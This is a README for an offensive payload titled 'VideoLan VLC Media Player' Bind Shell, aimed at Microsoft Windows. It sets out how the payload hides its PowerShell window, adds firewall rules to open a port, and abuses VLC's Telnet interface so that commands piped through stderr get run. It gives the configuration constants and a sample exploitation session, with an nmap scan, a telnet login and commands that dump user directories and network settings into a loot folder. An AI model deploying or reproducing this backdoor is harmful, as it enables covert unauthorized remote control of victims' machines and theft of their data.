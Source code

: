 # "VideoLan VLC Media Player" Bind Shell

- Title:         "VideoLan VLC Media Player" Bind Shell
- Author:        TW-D
- Version:       1.0
- Target:        Microsoft Windows
- Category:      Remote Access

## Concept

In the list of commands allowed by "VideoLan VLC Media Player" on the "Telnet" interface, the use of the command "add" with a wrong argument redirects to the "stderr" of the process the exact content of this argument. The PowerShell script listens to the "stderr" output of the "VideoLan VLC Media Player" process and retrieves the payload to execute it.

## Description

1) Hide "PowerShell" window.
2) Determines the path of the "VLC Media Player" executable.
3) Creates two rules on the native firewall of "Microsoft Windows" to :
- Allow the executable to open a TCP port.
- Allow all incoming connections on that TCP port.
4) Starts the "VLC Media Player" executable with the "Telnet" interface enabled.
5) Redirects the standard error output of this process and retrieves the payload for execution.

## Configuration

From "payload.txt" change the values of the following constants :
```bash

######## INITIALIZATION ########

readonly TELNET_PORT="44423"
readonly TELNET_PASSWORD="VLC_T3LN3T"

```

## Exploitation

```
hacker@hacker-computer:~$ nmap -Pn -sT -p 44423 <TARGET-IP>
[...]
hacker@hacker-computer:~$ telnet <TARGET-IP> 44423
Trying <TARGET-IP>...
Connected to <TARGET-IP>.
Escape character is '^]'.
VLC media player 3.0.18 Vetinari
Password: <TELNET_PASSWORD>
Welcome, Master
> add "EXEC/(ls C:\Users\) > .\..\..\loot\ls.log"
> add "EXEC/(ipconfig) > .\..\..\loot\ipconfig.log"
> shutdown
```
